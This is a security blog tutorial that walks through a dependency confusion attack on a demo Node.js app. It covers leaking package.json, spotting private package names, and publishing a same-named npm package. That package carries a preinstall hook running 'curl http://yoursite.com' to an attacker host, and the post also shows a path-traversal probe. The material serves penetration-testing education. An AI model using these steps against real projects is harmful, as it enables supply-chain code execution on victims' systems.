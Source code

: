 ```yaml
---
title: "Exploiting Dependency Confusion"
date: 2021-06-01 13:37:31
description: Exploiting Dependency Confusion
---
```


In this blog, We will step by step exploit a demo application vulnerable to Dependency Confusion attack. 

This blog is not about what dependency confusion is, that you can read [here](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610).

## Introduction to demo app

Our demo application is a simple app with only Backend and Frontend. The application allows the User from frontend to check if a string has an XSS payload in it or not.

### Backend

The backend is running on http://demo-app.com:1337. 

There is an API endpoint `http://demo-app.com:1337/?text=PAYLOAD` that checks for XSS payload in it.

![](/website/assets/images/dep-conf-1.png)

### Frontend

Frontend is running on http://demo-app.com:3000

The Frontend takes a query parameter "text". It then hits the backend API with that query parameter text, looks for XSS in that text, and displays the result on screen (see below)

![](/website/assets/images/dep-conf-2.png)

![](/website/assets/images/dep-conf-3.png)


## Overview Dependency Confusion

To Find if an application is vulnerable to Dependency confusion, our first step is to find all the possible packages the web application is using.  

### What are packages?

We can think of packages as `Developers sharing code for other developers to reuse it`. 

For example, If a developer develops a mongo database wrapper to enable MongoDB connection, he can make a package and publish it online(at central repository) and other people can reuse them. 

Now, In case you do not want to share your package with everyone in the world but keep it secret to people in your organization you can host your packages on a private organization repo and only people in your organization can use it. For example. Let's say you have a custom authentication process that you think everyone can use in your company. Making it public will not be a good idea. So there is also a concept of private repositories where developers can share private packages. 

Our goal as an attacker is to find as many packages as possible used in Frontend/Backend and find the ones that are private to the organization. Once we know all private packages, we can host them on npm and the web application will download our package instead of the private package(that's how this vulnerability works).

## Exploiting demo app

### Step 1

Find Packages installed in backend application. To do this we will need to leak the package.json file somehow or if we can leak the application’s source code. Some ways to do it:

* Directory brute force for sensitive information leak
    * http://site.com/.git can leak full source
    * http://site.com/package.json maybe we can just read package.json

* If the application is vulnerable to Local file disclosure, we can use it to leak package.json 
    * http://site.com/?file=../../../package.json

* OSINT
    * If its an open source app, you can try finding the source code on GitHub and see packages used

etc.. The goal here is to use your hacker instinct to find the leak and get the information about packages installed.

Following the above steps, running dirsearch on our demo application backend(http://demo-app:1337/) show’s the following result:

![](/website/assets/images/dep-conf-4.png)

So we can see the package.json file is exposed. It lists the following packages installed.
![](/website/assets/images/dep-conf-5.png)

### Step 2

Find packages installed in the Frontend application. We can do this in the following ways:
* Reviewing frontend source code and look for required packages. Look for the term `require()` or `import` in the source code

    ![](/website/assets/images/dep-conf-6.png)

* Frontend Application might be returning `node_modules` folders back to the user. Some applications do that in debug mode

    ![](/website/assets/images/dep-conf-9.png)


etc.. Again, the goal is to use your hacker instincts and find the packages.

### Step 3

List all the packages 

* Frontend
    * react
    * ez-get-url-params [looks suspecious]
    * react-dom
    * react-refresh
    * url
    ...

* Backend
    * body-parser
    * express
    * xss-finder-0xsapra [looks suspecious]


### Step 4

Now that we have a list of all the packages used in the application, the next step is to find which one of them is `not` on `npm`. We can simply do this by visiting https://www.npmjs.com/ and search for the package name. 

So 2 packages which I cant find are:

* xss-finder-0xsapra
![](/website/assets/images/dep-conf-7.png)

* ez-get-url-params
![](/website/assets/images/dep-conf-8.png)

Meaning these are private packages.

### Step 5

Upload the package with similar name  `xss-finder-0xsapra` or `ez-get-url-params` on NPM(with preinstall scripts to get RCE). Here are steps to upload `xss-finder-0xsapra` and perform the attack chain

* git clone https://github.com/0xsapra/dependency-confusion-expoit
* cd dependency-confusion-expoit
* Edit package.json following fields
    * Change module name `"name": "ez-get-url-params",` to `"name": "xss-finder-0xsapra",`. 
    * Change Version `"version": "1.0.0",` to `"version": "1.0.0",`
        * As you can see, leaked package.json shows `xss-finder-0xsapra` is at version `1.0.0` so we use the same version
    * Change `"preinstall": "curl http://yoursite.co.m"` to `"preinstall": "curl http://yoursite.com"` 
        * preinstall is the command that gets executed. use any bash command you want here
    ![](/website/assets/images/dep-conf-10.png)

* After editing package.json, next step is to upload this package to npm. To do this you can follow the steps from [https://zellwk.com/blog/publish-to-npm/](https://zellwk.com/blog/publish-to-npm/) . Here's the same steps:
    * Login/Signup into npm from https://www.npmjs.com/signup
    * Open terminal/bash on login into npm from terminal using `npm login` command
    ![](/website/assets/images/dep-conf-11.png)
    * Run following in terminal `npm publish .` and it will publish `xss-finder-0xsapra` to npm
    ![](/website/assets/images/dep-conf-12.png)
* You can now find the package uploaded on https://npmjs.com (https://www.npmjs.com/package/xss-finder-0xsapra)

### Step 6

Now whenever backend code will run `npm install` it will install our package instead and run the `preinstall` script (curl command in our case).

![](/website/assets/images/dep-conf-13.png)

## Conslusion

Following the above 5 steps, you should be able to properly test an application for dependency confusion vulnerability. 

I hope this clears the attack. 